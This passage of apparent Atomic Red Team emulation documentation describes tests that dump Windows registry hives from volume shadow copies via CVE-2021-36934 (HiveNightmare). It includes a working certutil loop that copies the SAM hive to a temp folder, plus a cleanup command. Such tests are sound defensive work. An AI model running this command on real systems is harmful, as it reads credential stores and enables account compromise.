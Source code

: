 


<br/>
<br/>

## Atomic Test #5 - dump volume shadow copy hives with certutil
Dump hives from volume shadow copies with the certutil utility, exploiting a vulnerability known as "HiveNightmare" or "SeriousSAM".
This can be done with a non-admin user account. [CVE-2021-36934](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-36934)

**Supported Platforms:** Windows


**auto_generated_guid:** eeb9751a-d598-42d3-b11c-c122d9c3f6c7





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| target_hive | Hive you wish to dump | string | SAM|
| limit | Limit to the number of shadow copies to iterate through when trying to copy the hive | integer | 10|


#### Attack Commands: Run with `command_prompt`! 


```cmd
for /L %a in (1,1,#{limit}) do @(certutil -f -v -encodehex "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy%a\Windows\System32\config\#{target_hive}" %temp%\#{target_hive}vss%a 2 >nul 2>&1) && dir /B %temp%\#{target_hive}vss%a
```

#### Cleanup Commands:
```cmd
for /L %a in (1,1,#{limit}) do @(del %temp%\#{target_hive}vss%a >nul 2>&1)
```





<br/>
<br/>

## Atomic Test #6 - dump volume shadow copy hives with System.IO.File
Dump hives from volume shadow copies with System.IO.File. [CVE-2021-36934](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-36934)

**Supported Platforms:** Windows


**auto_generated_guid:** 9d77fed7-05f8-476e-a81b-8ff0472c64d0
